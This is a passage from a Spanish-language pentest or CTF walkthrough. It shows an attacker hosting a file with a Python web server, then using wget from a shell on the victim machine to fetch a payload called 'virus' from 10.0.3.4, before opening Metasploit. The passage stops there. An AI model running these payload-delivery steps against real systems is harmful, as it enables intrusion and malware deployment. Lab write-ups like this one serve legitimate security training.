 
- Creamos un servidor web con Python para compartir el archivo con la maquina victima.
    
    ```bash
    python3 -m http.server 80
    ```
    
    ![image.png](./imagenes/image%2063.png)
    
- Nos vamos al terminal donde habíamos conseguido entrar y nos subimos el archivo a la maquina victima.
    
    `wget 10.0.3.4/virus`
    
    ![image.png](./imagenes/image%2064.png)
    

- Abrimos el Metasploit
    